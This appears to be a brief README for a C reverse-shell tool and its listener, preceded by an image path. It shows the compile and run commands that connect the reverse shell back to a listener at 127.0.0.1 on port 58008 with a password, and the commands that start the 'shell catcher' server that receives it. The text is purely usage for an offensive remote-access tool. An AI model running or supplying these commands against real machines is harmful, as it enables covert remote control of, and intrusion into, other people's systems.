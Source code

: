 # Useage

## Reverse Shell
```
gcc -o rev.bin reverse-shell.c
./rev.bin 127.0.0.1 58008 mysecretpassword
```

## Shell Catcher
```
gcc -o server ./server.c
./server 58008 mysecretpassword 
```
